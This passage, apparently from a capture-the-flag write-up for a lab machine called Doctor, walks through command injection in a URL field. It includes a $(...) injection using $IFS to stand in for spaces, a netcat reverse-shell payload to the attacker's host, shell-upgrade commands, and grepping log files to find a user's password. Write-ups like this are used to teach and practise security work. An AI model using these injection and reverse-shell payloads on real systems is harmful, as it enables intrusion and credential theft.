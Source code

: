 ```
python3 -m http.server 15000
Serving HTTP on 0.0.0.0 port 15000 (http://0.0.0.0:15000/) ...
10.10.10.209 - - [18/Oct/2020 09:55:54] "GET / HTTP/1.1" 200 -
```

Next I think what if it uses something like curl to make the requests? Then I might be able to injection some code. So I try some chaining techniques and one finally worked.

```
http://10.10.12.22:15000/$(whoami)

10.10.10.209 - - [18/Oct/2020 09:57:32] "GET /web HTTP/1.1" 404 -
```

YESS! We can see the user "web" with the web request. Next I try to use this to method to maybe get a netcat connection. But when I use spaces between my command and post the message I get an error saying that the URL is invalid. That makes sense because you dont see spaces in a URL. I had to find a way to bypass that.

After some searching I see that you can use "$IFS" wherever you want a space in a command. IFS is a variable that is used for field separation. But even after properly constructing my payload I still was not getting a connection. Two possibilities are that netcat was not installed OR the version of netcat did not support the "-e" flag. I search and find that you can use "nc.tradtional" to use the old version of netcat. 

This was the final payload which worked.

```
http://10.10.12.22:15000/$(nc.traditional$IFS'10.10.12.22'$IFS'1234'$IFS-e$IFS'/bin/bash')
```

And I get a netcat connection after posting the message. The hard part is now over.

```
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from doctors.htb 58944 received!
whoami
web
python3 -c 'import pty;pty.spawn("/bin/bash")'       
web@doctor:~$ 
web@doctor:~$ id
id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

We already have a clue for what to do next. We see with the "id" command that we are in the "adm" group. This means that we have the permissions to read the log files. I hop on over to the `/var/log` directory and started grepping for things like password,user, shaun(another user on system) etc.

After some grepping I find possible password for user shaun.

```
grep -r password

apache2/error.log:[Sun Oct 18 03:43:47.383350 2020] [php7:error] [pid 641915] [client 10.10.14.206:34630] script '/var/www/html/resetpassword.php' not found or unable to stat
apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
apache2/error.log.1:[Sat Oct 17 12:38:31.996156 2020] [php7:error] [pid 4366] [client 10.10.14.35:41188] script '/var/www/html/reset.php' not found or unable to stat

```
